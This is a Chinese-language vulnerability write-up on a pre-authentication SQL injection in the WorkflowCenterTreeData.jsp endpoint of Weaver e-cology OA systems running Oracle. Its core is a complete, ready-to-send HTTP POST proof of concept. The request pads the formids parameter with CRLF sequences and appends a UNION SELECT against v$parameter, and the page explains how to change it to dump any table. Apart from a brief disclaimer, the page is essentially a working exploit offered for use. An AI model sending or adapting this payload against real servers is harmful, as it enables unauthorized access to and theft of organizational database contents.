

### 泛微 e-cology OA 前台SQL注入漏洞

### 简介

泛微提供了移动办公、微信办公、协同办公(OA)、流程管理、信息门户、知识管理、费控管理等功能，适用于手机和pc端，是当今比较主流的OA系统之一。  

### **原理概述**

该漏洞是由于OA系统的WorkflowCenterTreeData接口在收到用户输入的时候未进行安全过滤，  oracle数据库传入恶意SQL语句，导致SQL漏洞  

### **影响范围**

使用oracle数据库的泛微 e-cology OA 系统  

### **漏洞利用**

找到oracle数据库的泛微OA系统后直接使用Poc（已公开）  

如果不存在漏洞，则显示结果如下：  


如果漏洞存在，则会直接回显很多数据:  


### Poc如下：（勿用于非法途径）  

```
POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2236
Connection: close
Upgrade-Insecure-Requests: 1

formids=11111111111)))%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0d%0a%0dunion select NULL,value from v$parameter order by (((1
```

修改NULL后为要查询的字段名,修改from后为查询的表  

以下为效果  




